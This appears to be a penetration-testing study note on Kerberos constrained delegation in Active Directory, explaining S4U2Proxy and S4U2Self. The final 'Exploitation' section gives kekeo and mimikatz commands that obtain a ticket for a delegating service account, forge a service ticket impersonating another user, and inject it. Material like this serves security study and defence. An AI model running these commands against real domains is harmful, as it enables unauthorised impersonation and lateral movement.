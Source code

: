- [[#Unconstrained Delegation]] is dangerous, as it allows services to impersonate user and access any service.
- S4U restricts this and only allows delegation to certain services.
	- Service for User to Proxy (S4U2Proxy)
	- Service for User to Self (S4U2Self)
- No TGT is required in this extention.
### S4U2Proxy
This extension allows a service to request another service on behalf of the user by using `ST` instead of `TGT`.
The service can only ask for impersonation `ST` for certain services defined in one of the following ways:
- **Classic Constrained Delegation**: `msDS-AllowedToDelegateTo` attribute of the service account. It contains [[Active Directory/AD Concepts/Services#SPN|SPN]] of the services for which the service account can ask ST for. To edit this parameter, `SeEnableDelegationPrivilege` priv is required.
- **Resource Based Constrained Delegation**: The service account is mentioned in the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of the target service for which the service account will ask ST for.
### S4U2Self
- Kerberos delegation when the client does not support Kerberos protocol. (Protocol Transition)
- In this scenario, the service which has the "TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION" flag set, can request a TGS for the another service for the user.
# Enumeration
- Enumerating users and computers which contrained delegation enabled
- Powerview:
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```
- Active Directory Module
```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDeleagateTo
```
# Exploitation
- Getting a TGT for the account that can delegate
```powershell
kekeo tgt::ask /user:svcIIS /domain:mydomain.local /password:Qwer1234.
# this will save the TGT file to the disk
# use this TGT to request TGS for the delegated service
kekeo tgs::s4u /tgt:<tgt_file> /user:<user_to_inpersonate> /service:<service_allowed_to_delegate_to>
# this will save the TGS to the disk
# we can load this ticket it memory
mimikatz kerberos::ptt <ticket_file>
```